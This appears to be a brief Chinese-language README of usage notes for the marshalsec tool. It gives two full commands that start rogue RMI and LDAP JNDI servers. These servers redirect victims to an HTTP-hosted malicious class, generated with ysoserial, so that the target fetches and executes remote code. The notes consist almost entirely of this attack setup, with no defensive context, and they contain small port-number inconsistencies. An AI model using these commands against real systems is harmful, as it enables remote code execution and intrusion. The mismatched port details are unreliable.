


# README


## marshalsec 使用

### 开启 RMI 服务器

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088
```

上述代码的  `http://ip:8080/文件夹/#ExportObject` 指向一个 `http` 服务器地址，要求能够通过 `http` 访问该链接。

 `ExportObject` 为恶意类，一般通过 `ysoserial` 来生成

8099 为 `rmi` 服务器的端口，如果不指定，默认使用 `1099` 端口




### 开启 LDAP 服务器

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088
```


上述代码的  `http://ip:8080/文件夹/#ExportObject` 指向一个 `http` 服务器地址，要求能够通过 `http` 访问该链接。

8088 为 `rmi` 服务器的端口，如果不指定，默认使用 `1389` 端口

